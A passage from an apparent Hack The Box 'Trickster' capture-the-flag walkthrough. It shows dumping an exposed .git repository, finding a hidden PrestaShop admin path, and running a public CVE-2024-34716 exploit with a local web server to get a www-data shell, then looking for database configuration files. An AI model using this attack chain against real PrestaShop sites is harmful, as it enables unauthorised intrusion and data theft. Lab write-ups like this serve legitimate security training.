 ![.git directory content](/images/HTB-Trickster/git_content.png)

We use [git-dumper](https://github.com/arthaud/git-dumper) to dump the repository on our local machine.

```
git-dumper http://shop.trickster.htb/.git/ git_trickster
```

![.git directory download](/images/HTB-Trickster/git_dumper.png)

We have two directories: `.git` (the one we already know about) and `admin634ewutrx1jgitlooaj`. We also check the commits with `git log` and find only one about updating an admin panel by `adam@tricksterhtb`.

![git log command](/images/HTB-Trickster/adam_commit.png)

At `http://shop.trckster.htb/admin634ewutrx1jgitlooaj/` there is another login page with `PrestSahop 8.1.5`.

![prestashop 8.1.5](/images/HTB-Trickster/prestashop_8.1.5.png)

## Initial Foothold

After researching an exploit for this version we find an article [here](https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/) about `CVE-2024-34716` and a PoC is available at [this](https://github.com/aelmokhtar/CVE-2024-34716) Github repository.

We need to set a web server on port 5000 first.

```
python3 -m http.server 5000
```

![web server trickster exploit](/images/HTB-Trickster/web_server_trickster.png)

Then we run the exploit.

```
python3 exploit.py --url http://shop.trickster.htb --email adam@trickster.htb --local-ip YOUR_IP --admin-path admin634ewutrx1jgitlooaj
```

We obtain a shell as `www-data`.

![foothold](/images/HTB-Trickster/foothold.png)

On [this website](https://classydevs.com/prestashop-database-config-file/) we learn the Prestashop database configuration file is either in `your-website/config/settings.inc.php` (for v1.5-1.6) or in `your-website/app/config/parameters.php` (for v1.7). 

In `/var/www/prestashop/config/config.inc.php` we find a line pointing to `parameters.php`.

![configuration file](/images/HTB-Trickster/config_file.png)
